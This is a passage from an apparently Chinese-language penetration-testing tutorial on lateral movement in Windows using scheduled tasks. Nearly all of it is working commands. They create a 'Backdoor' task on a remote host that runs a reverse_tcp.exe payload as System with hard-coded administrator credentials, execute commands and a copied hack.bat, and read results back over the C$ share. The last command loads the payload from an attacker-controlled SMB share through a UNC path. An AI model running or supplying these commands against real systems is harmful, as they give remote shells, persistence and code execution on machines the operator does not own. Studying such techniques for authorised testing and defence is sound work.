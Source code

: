 如果没有建立 IPC 连接，则需要指定远程主机的用户凭据

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F /U Administrator /P 123qwe@
```

-   创建完成后，可以等待计划任务自行执行，也可以立即启动计划任务 shell

```plain
schtasks /RUN /S 192.168.1.131 /I /TN Backdoor
```

-   查看计划任务 shell

```plain
schtasks /query /S 192.168.1.131 /TN Backdoor
```

-   删除计划任务 shell

```plain
schtasks /Delete /S 192.168.1.131 /TN Backdoor /F
```

也可以通过计划任务执行系统命令，将执行结果写入文件，然后使用 type 命令查看文件

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR "c:\windows\system32\cmd.exe /c 'whoami' > c:\users\public\result.txt" /RN System /F


type \\192.168.1.131\C$\users\public\result.txt
copy C:\Users\Administrator\Desktop\hack.bat \\192.168.1.131\c$\Windows\Temp

schtasks /create /tn hack /tr C:\Windows\Temp\hack.bat /sc ONSTART /s 192.168.1.131 /ru "system" /u administrator /p 123qwe@

schtasks /run /tn hackk /s 192.168.1.131

type \\192.168.1.131\c$\Windows\Temp\result.txt

schtasks /delete /s 192.168.1.131 /u administrator /p 123qwe@ /tn hackk /f
```

**注意：在使用 schtasks 命令时，会在系统中留下日志文件 C:\\Windows\\Tasks\\SchedLgU.txt。**

### [UNC 路径加载执行](#toc_unc)

Windows 系统使用 UNC 路径来访问网络共享资源，格式为

```plain
\\servername\sharename\directory\filename # servername 服务器；sharename 网络共享名字
```

攻击载荷在远程主机上时，可以直接使用 UNC 路径代替常规的本地路径，让目标主机直接在测试人员搭建的 Smb 共享中加载攻击载荷并执行。这样可以省去手动上传载荷的步骤。

例如：

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR \\192.168.1.1\mysmb\reverse_tcp.exe /RN System /F
```

